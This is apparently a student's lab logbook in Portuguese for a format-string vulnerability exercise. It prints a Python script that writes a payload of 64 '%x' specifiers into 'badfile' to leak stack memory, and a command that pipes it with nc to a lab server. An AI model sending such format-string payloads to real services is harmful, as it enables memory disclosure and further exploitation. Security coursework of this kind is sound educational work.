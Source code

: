 ### Tarefa 2.A: Dados da *Stack*

* Para imprimir dados da *stack*, são necessários 64 `%x`

* Chegamos a esta conclusão ao editar o ficheiro `build_script.py`, resultando no código abaixo

```python
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte integer at offset 0
number  = 0x1234567a
content[0:4]  =  (number).to_bytes(4,byteorder='little')

# This line shows how to store a 4-byte string at offset 4
# content[4:8]  =  ("abcd").encode('latin-1')

# This line shows how to construct a string s with
#   12 of "%.8x", concatenated with a "%n"
s = "%x" * 64

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[4:4+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

* Este código coloca no início do ficheiro `badfile` o número **0x1234567a**, seguido de 64 `%x` - o valor 64 foi obtido experimentalmente através de ajustes/aproximações manuais

* Ao correr `./build_script.py` e fazer `cat badfile | nc 10.9.0.5 9090`, obtivemos o seguinte resultado do lado do servidor

![Tarefa 2.A](/images/logbook7-tarefa2a.png)
